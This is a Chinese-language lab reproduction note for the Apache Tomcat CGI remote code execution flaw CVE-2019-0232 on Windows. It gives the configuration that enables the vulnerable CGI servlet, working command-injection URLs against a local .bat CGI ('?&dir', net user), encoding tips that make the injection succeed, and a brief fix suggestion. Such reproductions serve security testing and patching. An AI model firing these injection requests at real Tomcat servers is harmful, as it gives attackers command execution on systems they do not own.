




## Tomcat 远程代码执行（CVE-2019-0232）

影响范围：9.0.0.M1 ~ 9.0.17, 8.5.0 ~ 8.5.39 ， 7.0.0 ~ 7.0.93
影响系统： Windows

测试环境：
[Apache Tomcat v8.5.39](https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.39/bin/apache-tomcat-8.5.39-windows-x86.zip)
JDK 1.8.0_144

修改配置：
web.xml
```
<init-param>
  <param-name>debug</param-name>
  <param-value>0</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
```


content.xml


在`Tomcat\webapps\ROOT\WEB-INF`新建`cgi`目录，并创建`lxhsec.bat`文件，内容任意。

访问`http://127.0.0.1:8080/cgi-bin/lxhsec.bat?&dir`


执行命令`http://127.0.0.1:8080/cgi-bin/lxhsec.bat?&C:/WINDOWS/system32/net+user`


Note:net命令的路径要写全，直接写net user，Tomcat控制台会提示`net`不是内部命令，也不是可运行的程序，另 必须使用+号连接，使用`空格`，`%2B`都会执行失败，控制台报错。


### 修复建议
这个默认是关闭的，如果打开了请关闭，若需使用请升级版本。
